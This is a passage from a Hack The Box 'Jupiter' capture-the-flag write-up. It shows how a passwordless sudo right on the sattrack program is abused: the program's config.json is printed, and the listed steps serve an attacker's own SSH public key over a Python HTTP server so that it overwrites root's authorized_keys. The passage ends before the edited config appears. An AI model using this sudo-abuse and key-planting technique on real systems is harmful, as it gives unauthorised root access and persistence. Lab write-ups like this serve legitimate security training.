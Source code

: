 Run `linpeas.sh` again :)

we see we can run `sudo /usr/local/bin/sattrack` without password.

![](/commons/HTB/Jupiter/8_sudo.png)

After enumeration, we can find file config of sattrack in `/usr/local/share/sattrack/`.

Look at `config.json`,

```json
{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://celestrak.org/NORAD/elements/weather.txt",
                "http://celestrak.org/NORAD/elements/noaa.txt",
                "http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}
```

So we can edit it to add `id_rsa.pub` to `authorized_keys` of `root`.

1.Copy `config.json` to `/tmp`
2.Save us own `id_rsa.pub` in file `authorized_keys`
3.run http server `python3 -m http.server 80`
4.Edit file `/tmp/config.json`
